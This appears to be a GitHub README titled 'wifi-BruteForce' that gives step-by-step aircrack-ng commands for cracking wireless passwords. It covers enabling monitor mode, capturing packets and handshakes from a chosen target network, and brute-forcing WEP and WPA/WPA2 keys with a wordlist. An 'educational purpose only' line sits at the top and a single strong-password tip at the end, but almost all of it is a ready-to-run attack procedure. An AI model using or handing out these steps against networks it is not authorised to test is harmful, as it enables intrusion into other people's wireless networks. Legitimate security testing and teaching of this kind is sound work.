 # wifi-BruteForce

Educational purpose only

# install requirements except kali

# Run commands one by one

1. Airmon-ng 

    Start monitor mode on a wireless interface:

            sudo airmon-ng start wlan0

    Stop monitor mode on a wireless interface:

            sudo airmon-ng stop <interface>

    List available wireless interfaces and their status:

            sudo airmon-ng

2. Airodump-ng:

    Start capturing packets on a specific wireless interface:

            sudo airodump-ng <interface>

    Start capturing packets on a specific channel:

            sudo airodump-ng -c <channel> <interface>

    Capture packets from a specific BSSID (MAC address):

            sudo airodump-ng --bssid <BSSID> -c <channel> -w <output_file> <interface>

    Filter by a specific ESSID (network name):

            sudo airodump-ng --essid <ESSID> -c <channel> -w <output_file> <interface>

3. Aircrack-ng:

    Crack a WEP key using captured packets:

            sudo aircrack-ng -b <BSSID> -w <wordlist> <capture_file>

    Crack a WPA/WPA2 key using a captured handshake:

            sudo aircrack-ng -w <wordlist> -b <BSSID> <capture_file>

    Test a handshake file to check if it contains the complete handshake:

            sudo aircrack-ng -w <wordlist> -b <BSSID> -e <ESSID> <handshake_file>

# note 
    Replace <interface> with the name of your wireless interface (e.g., wlan0).
    Replace <channel> with the channel number you want to monitor or capture packets on.
    Replace <BSSID> with the MAC address of the target network.
    Replace <ESSID> with the network's SSID (name).
    Replace <output_file> with the name you want to give to the output file.
    Replace <capture_file> with the name of the file containing captured packets.
    Replace <wordlist> with the path to a wordlist file containing potential passwords.

# image
![bruteforce](bruteforce.jpeg) 
![bruteforce](bruteforce2.jpeg)

# protection against attacker

    Use a strong password for your wireless network which contain a combination of letters, numbers and special characters.




# kali_anonyms
